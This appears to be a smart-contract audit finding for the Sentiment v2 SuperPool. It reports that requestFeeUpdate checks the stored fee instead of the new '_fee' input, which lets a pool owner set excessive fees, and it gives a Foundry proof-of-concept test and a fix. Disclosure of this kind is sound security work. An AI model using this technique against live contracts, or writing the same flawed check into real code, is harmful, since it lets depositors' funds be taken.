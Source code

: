 Cool Red Dolphin

Medium

# requestFeeUpdate in SuperPool checks the fee state variable instead of the _fee input parameter

### Summary

In the `requestFeeUpdate` function, the validation is incorrectly performed on the state variable `fee` instead of the input parameter `_fee`. This flaw allows a malicious SuperPool owner to arbitrarily set the fee, potentially diverting more interest from depositors to themselves.

Furthermore, if the `fee` state variable is set above 1e18, it cannot be adjusted back to acceptable limits due to perpetual reversion caused by the conditional check against the state variable.

### Root Cause

In [SuperPool.sol:367] (https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPool.sol#L367) the if statement checks the state `fee` variable rather than the `_fee` input parameter.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The owner sets the new fee to any value of their choosing by calling the `requestFeeUpdate` function, althought there is a timelock in place, it does not necessarily mean depositors will take action in time.

### Impact

This flaw allows a malicious SuperPool owner to arbitrarily set the fee, potentially diverting more interest from depositors to themselves.

### PoC

Drop this test into the SuperPool.t.sol test file
```solidity
    function testSuperpoolSetFeeIssue() public {
        address feeRecipient = makeAddr("FeeRecipient");

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);
        address deployFeeRecipient = feeRecipient;
        address deployed = superPoolFactory.deploySuperPool(
            poolOwner, address(asset1), deployFeeRecipient, 0.1 ether, type(uint256).max, initialDepositAmt, "test", "test"
        );

        assert(deployed != address(0));
        SuperPool _superPool = SuperPool(deployed);
        assertEq(_superPool.owner(), poolOwner);
        assertEq(address(_superPool.asset()), address(asset1));
        assertEq(_superPool.feeRecipient(), feeRecipient);
        assertEq(_superPool.fee(), 0.1 ether);
        assertEq(_superPool.superPoolCap(), type(uint256).max);
        assertEq(_superPool.name(), "test");
        assertEq(_superPool.symbol(), "test");

        vm.startPrank(poolOwner);
        _superPool.addPool(linearRatePool, 100 ether);
        vm.stopPrank();
        console2.log("-------------------------------------------------------------");
        console2.log("[+] Values in pool after deploment: ");
        
        console2.log("[=] SuperPool fee setting : ",_superPool.fee());
        console2.log("[=] feeShares: ",_superPool.balanceOf(feeRecipient));
        console2.log("[$] totalAssets: ",_superPool.totalAssets());
        console2.log("[$] Shares of user: ",_superPool.balanceOf(user));
        console2.log("-------------------------------------------------------------");
        console2.log("");
        
        vm.startPrank(user);

        asset1.mint(user, 100 ether);
        asset1.approve(address(_superPool), 100 ether);
        console2.log("[$$$$] Asset1 balance of user : ",asset1.balanceOf(user));
        console2.log("[$$$$] Asset1 balance of SuperPool : ",asset1.balanceOf(address(_superPool)));
        console2.log("-------------------------------------------------------------");
        console2.log("");
        uint256 expectedShares = _superPool.previewDeposit(100 ether);
        uint256 shares = _superPool.deposit(100 ether, user);
        vm.stopPrank();
        vm.prank(poolOwner);
        console2.log("[*******] about to call requestFeeUpdate to set FEE to 2e18");
        _superPool.requestFeeUpdate(2e18);
        vm.stopPrank();
        vm.warp(block.timestamp + 25 hours);
        vm.prank(poolOwner);
        console2.log("[*******] about to call acceptFeeUpdate to set FEE to 2e18");
        _superPool.acceptFeeUpdate();
        console2.log("[!!!!!!!] Successfully called acceptFeeUpdate");

        //cant set it lower anymore
        console2.log("[*******] about to call requestFeeUpdate to set FEE to 0.01 ether");
        console2.log("[*******] THIS SHOULD REVERT");
        vm.expectRevert();
        _superPool.requestFeeUpdate(0.01 ether);
        console2.log("[!!!!!!!] IF IT GOT HERE IT REVERTED SETTING THE FEE CORRECTLY");
        _superPool.accrue();
        vm.stopPrank();

        vm.startPrank(user);
        _superPool.accrue();
        console2.log("-------------------------------------------------------------");
        console2.log("[+] Values in pool after deposit: ");
        console2.log("[=] SuperPool fee setting : ",_superPool.fee());
        console2.log("[=] feeShares: ",_superPool.balanceOf(feeRecipient));
        console2.log("[$] totalAssets: ",_superPool.totalAssets());
        console2.log("[$] Shares of user: ",_superPool.balanceOf(user));
        console2.log("-------------------------------------------------------------");
        console2.log("");
        console2.log("[$$$$] Asset1 balance of user : ",asset1.balanceOf(user));
        console2.log("[$$$$] Asset1 balance of SuperPool : ",asset1.balanceOf(address(_superPool)));
        console2.log("-------------------------------------------------------------");
        console2.log("");
        assertEq(shares, expectedShares);
        uint256 fundsReturned = _superPool.withdraw(100 ether,user,user);
        console2.log("-------------------------------------------------------------");
        console2.log("[+] Values in pool after withdraw: ");
        console2.log("[=] SuperPool fee setting : ",_superPool.fee());
        console2.log("[=] feeShares: ",_superPool.balanceOf(feeRecipient));
        console2.log("[$] totalAssets: ",_superPool.totalAssets());
        console2.log("[$] Shares of user: ",_superPool.balanceOf(user));
        console2.log("-------------------------------------------------------------");
        console2.log("");
        console2.log("[$$$$] Asset1 balance of user : ",asset1.balanceOf(user));
        console2.log("[$$$$] Asset1 balance of SuperPool : ",asset1.balanceOf(address(_superPool)));
        console2.log("-------------------------------------------------------------");
        console2.log("");
        
        console2.log("Funds returned after withdrawal: ", fundsReturned);
        vm.stopPrank();
    }
```

### Mitigation

We recommend updating the check to validate against the `_fee` input parameter rather than the `fee` state variable.